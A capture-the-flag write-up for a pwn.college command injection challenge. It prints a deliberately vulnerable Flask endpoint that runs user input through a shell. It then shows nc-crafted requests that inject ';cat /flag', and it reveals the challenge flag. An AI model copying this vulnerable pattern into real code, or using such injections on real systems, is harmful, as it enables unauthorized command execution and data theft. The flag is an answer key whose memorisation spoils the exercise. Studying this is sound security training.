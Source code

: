 # Challenge: CDMi 1

title: "Command Injection 1 — Writeup"
category: "Web Exploitation"
challenge: "CMDi-1"
platform: "pwn.college"
difficulty: "Intermediate"
---

# Command Injection 1 — Writeup

## 🧠 Challenge Overview

In this challenge, we are provided with a Flask-based Python web server that exposes an endpoint at `/puzzle`. This endpoint accepts a `topdir` query parameter and runs the `ls -l` command on the specified directory.


## 🔍 Server Code Analysis

Here is the vulnerable code:

```python
@app.route("/puzzle", methods=["GET"])
def challenge():
    arg = flask.request.args.get("topdir", "/challenge")
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,
        shell=True,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/puzzle"><input type=text name=topdir><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """
```

## 🔥 Vulnerability

The server takes user input (topdir) and injects it directly into a shell command (ls -l {arg}) with shell=True, allowing arbitrary shell command execution. This is a classic command injection vulnerability.

## 🎯 Exploitation Steps

### Step 1: List root directory

```bash
hacker@web-security~cmdi-1:~$ printf "GET /puzzle?topdir=/ HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Response includes the contents of /, revealing the presence of /flag:
```bash
-r--------    1 root root   60 Jul 20 04:23 flag
```

### Step 2: Inject command using ; to read the flag

```bash
hacker@web-security~cmdi-1:~$ printf "GET /puzzle?topdir=/;cat+/flag HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
Response:
```bash
pwn.college{YQtUmMdXcZJ2zAZL75q30YR820m.QX1YTN2wSM0IzMyEzW}
```

## How the Injection Worked

The command constructed on the server:
```bash
ls -l /;cat /flag
```
Using ; allows chaining of commands — ls -l / runs first, followed by cat /flag, which leaks the contents of the flag file.

##Flag
```bash
pwn.college{YQtUmMdXcZJ2zAZL75q30YR820m.QX1YTN2wSM0IzMyEzW}
```

